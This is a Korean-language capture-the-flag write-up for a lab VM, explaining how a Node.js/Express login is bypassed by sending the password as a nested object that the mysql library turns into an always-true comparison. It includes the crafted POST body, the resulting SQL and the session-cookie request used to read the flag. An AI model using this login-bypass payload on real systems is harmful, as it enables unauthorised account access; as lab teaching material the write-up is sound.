





# S3 · CProxy: Inject

### 1. VM에 접속한다

`/auth`에 접속하면 ID와 PW를 입력하는 로그인 화면이 나온다. 목표는 `admin_inject` 계정으로 로그인해 저장된 응답 기록에서 FLAG를 읽는 것이다.

<p align="center"></p>

### 2. 코드 분석 — 객체를 이용한 SQL Injection

**① `index.js`는 입력한 비밀번호의 자료형을 검사하지 않고 로그인 함수에 전달한다.**

```javascript
app.use(express.urlencoded());

// POST /auth 내부
const {id, pw} = req.body;
const uid = await db.doLogin(id, pw);
if (uid !== undefined) {
    req.session.uid = uid;
    return res.redirect('/');
}
```

`express.urlencoded()`는 `pw[pw]=1` 같은 폼 데이터를 중첩 객체로 파싱할 수 있다. `doLogin()`이 사용자 번호를 반환하면 그 값을 `req.session.uid`에 저장해 로그인 상태를 유지한다.

**② `db.js`는 `pw` 객체를 그대로 SQL 쿼리에 사용한다.**

```javascript
const result = await query(
    "SELECT * FROM users WHERE id = ? AND pw = ?", [id, pw]
);
if (result.length === 1) {
    return result[0]._id;
}
```

`result.length === 1`은 **조회된 사용자 행이 정확히 1개인지** 검사한다. 참이면 첫 번째 행(`result[0]`)의 사용자 번호(`_id`)를 반환한다.

`mysql` 라이브러리는 문자열 대신 받은 `{pw: "1"}` 객체를 `` `pw` = '1' `` 형태로 변환하므로 SQL 조건이 다음처럼 바뀐다.

```sql
WHERE id = 'admin_inject' AND pw = `pw` = '1'
-- (pw = pw) = '1' 로 평가되어 실제 비밀번호 비교를 우회
```

제공된 `2_flag_inject.sql`에서 `admin_inject`의 `_id`는 **1**이고, 이 계정의 응답 기록 `_id`도 **1**이다.

### 3. Burp Suite에서 로그인 요청 변조

Repeater에서 `/auth`로 전송하는 POST 요청의 본문을 다음과 같이 수정한다.

```text
id=admin_inject&pw%5Bpw%5D=1
```

`%5B`와 `%5D`는 대괄호 `[`와 `]`의 URL 인코딩이다. 결과적으로 `pw`가 문자열이 아닌 `{pw: "1"}` 객체로 전달된다.

<p align="center"></p>

### 4. 관리자 로그인 성공 확인

요청을 전송하면 **`302 Found`와 `Location: /`** 응답이 나온다. 소스코드상 `doLogin()`이 사용자 번호 `1`을 반환한 경우 이 응답이 발생하며, 서버는 `req.session.uid = 1`을 저장한다.

<p align="center"></p>

### 5. 관리자 응답 기록 조회

Repeater에서 **같은 `connect.sid` 쿠키를 유지**한 채 아래 GET 요청을 전송한다.

```http
GET /api/history/1 HTTP/1.1
Host: <VM주소:포트>
Cookie: connect.sid=<기존_세션_쿠키>
```

<p align="center"></p>

서버는 `db.getResponse(uid, rid)`로 다음 SQL을 실행한다.

```sql
SELECT res FROM responses WHERE _id = 1 AND uid = 1;
```

여기서 `_id=1`은 요청한 **기록 번호**, `uid=1`은 로그인한 **관리자 번호**다.

### 6. FLAG 확인

응답에서 `200 OK`와 JSON의 `data` 항목에 포함된 `DH{...}` 형식의 FLAG를 확인했다.

<p align="center"></p>

**취약점 원인:** 비밀번호 입력의 자료형 검증이 없어 객체가 SQL 비교식으로 변환되었고, 이로 인해 관리자 비밀번호 검증을 우회할 수 있었다.
